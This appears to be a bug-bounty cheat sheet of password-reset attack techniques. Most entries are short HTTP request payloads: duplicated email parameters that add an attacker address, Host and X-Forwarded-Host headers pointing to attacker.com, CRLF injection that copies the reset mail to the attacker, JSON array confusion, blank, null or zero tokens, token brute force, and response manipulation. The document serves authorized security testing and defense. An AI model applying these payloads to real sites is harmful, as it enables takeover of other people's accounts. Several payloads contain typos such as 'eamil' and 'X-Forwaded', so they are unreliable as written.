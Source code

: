 
__Include Your Email as 2nd parameter__
```http
POST /reset
...
...
email=victim@gmail.com&email=attacker@gmail.com
```


__Bruteforce if numric__
```http
https://exaample.com/reset?token=$BRUTEFORCE
```



__Use Your Token on Victims Email__
```http
POST /reset
...
...
email=victim@gmail.com&token=$YOUR-TOKEN$
```



__Host Header Injection__
```http
POST /reset
Host: attacker.com
...
email=victim@gmail.com
```



__HTML injection in Host Header__
```http
POST /reset
Host: attacker">.com
...
email=victim@gmail.com
```



__X-Forwaded in Host__
```http
POST /reset
Host: website.com
X-Forwaded-Host: attacker.com
...
email=victim@gmail.com
```



__CRLF in Reset__
```http
POST /reset
Host: attacker.com
...
...
email="victim@mail.tld%0a%0dcc:attacker@mail.tld"
```



__Leakage of Password reset in Referer Header__
```http
Referrer: https://website.com/reset?token=1234
```



__Leaking Reset Token in Response Body__
```http

```



__Using Companies Email__
```
While inviting users into your account/organization, you can also try inviting company emails and add a 
new field "password": "example123". or "pass": "example123" in the request. you may end up resetting a
user password

Company emails can be found on target's GitHub Repos members or you can check on http://hunter.io. some users
have a feature to set a password for invited emails, so here we can try adding a pass parameter.

If successful, we can use those credentials to login into the account, SSO integrations, support panels,
etc #BugBountyTips  
```



__CRLF in URL__
```http
with CLRF: /resetPassword?0a%0dHost:atracker.tld (x-host, true-client-ip, x-forwarded...)
```



__Json Array Confusion__
```http
{"email":["victim@mail.tld","atracker@mail.tld"]}
```



__HTML injection in Email__
```http
HTML injection in email via parameters, cookie, etc > inject image > leak the  token
```



__Remove token__
```http
http://example.com/reset?eamil=victims@gmail.com&token=
```



__Change it to 0000__
```http
http://example.com/reset?eamil=victims@gmail.com&token=0000000000

```



__Use Null Value__
```http
http://example.com/reset?eamil=victims@gmail.com&token=Null/nil

```


__try an array of old tokens__
```http
http://example.com/reset?eamil=victims@gmail.com&token=[oldtoken1,oldtoken2]
```



__try victim@email.com&attacker@email.com use  %20 or | as separators__
```http
POST /reset
Host: attacker.com
...
...
email=attacker@mail.tld%20victim@gmai.com
email=attacker@mail.tld|victim@gmai.com
```




__SQLi bypass__
```http
try sqli bypass and wildcard or, %, *
```




__Request Method / Content Type__
```http
change request method (get, put, post etc) and/or content type (xml<>json) 
```




__Response Manipulation__
```http
Replace bad response and replace with good one
```




__Massive Token__
```http
http://example.com/reset?eamil=victims@gmail.com&token=1000000 long string

```




__Crossdomain Token Usage__
```http
If a program has multiple domains using same underlying reset mechanism, reset token generated from one domain sometime 
works in another domain too.
```





#### Other:
- change 1 char at the begin/end to see if the token is evaluated
- use unicode char jutzu to spoof email address
- look for race conditions
- don't add the domain locu@
- try to register the same mail with different TLD (.eu,.net etc)
